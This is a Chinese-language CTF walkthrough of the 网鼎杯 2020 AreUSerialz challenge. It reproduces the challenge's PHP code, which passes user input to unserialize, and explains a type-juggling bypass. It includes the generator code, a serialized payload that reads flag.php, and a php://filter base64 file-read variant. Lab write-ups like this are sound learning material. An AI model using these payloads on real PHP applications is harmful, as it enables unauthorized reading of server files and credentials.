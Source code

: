# [网鼎杯 2020 青龙组]AreUSerialz 1

- 开始代码审计

```php
 <?php

include("flag.php");
highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

- 根据代码审计的结果，需要以GET方式传入一个参数str，str的值是序列化字符串，内容为一个FileHandler对象，对象中有三个属性 `$op` ， `$filename` 和 `$content` ，对象在实例化时会执行一次 `__construct()` 方法，摧毁时会执行一次 `__destruct()` 方法，而 `__destruct()` 方法会执行其中的 `process()` 方法，当 `$op == '2'` 时，就可以通过 `file_get_contents()` 函数读取flag.php，其中 `__destruct()` 方法会对 `$op` 进行一次强比较，当 `$op === '2'` 时会将其赋值为 `'1'`，因此这里需要对 `$op` 赋值为数值2来绕过 `__destruct()` ，同时绕过 `process()` 方法的弱比较

- 注意此题的属性作用域为protected，在输出为序列化字符串中会出现不可打印的字符，因此改为public
 
```php
class FileHandler {
    public $op = 2;
    public $filename = '/var/www/html/flag.php';
    public $content = '';
}

$a = new FileHandler();
echo serialize($a);
```

`O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:22:"/var/www/html/flag.php";s:7:"content";s:0:"";}`

*注：这里的$filename也可以使用php://伪协议*

*$filename=php://filter/convert.base64-encode/resource=flag.php*

- 传入参数，在源码中得到flag

> <img src="../../IMG2/Screenshot 2024-06-04 191404.png">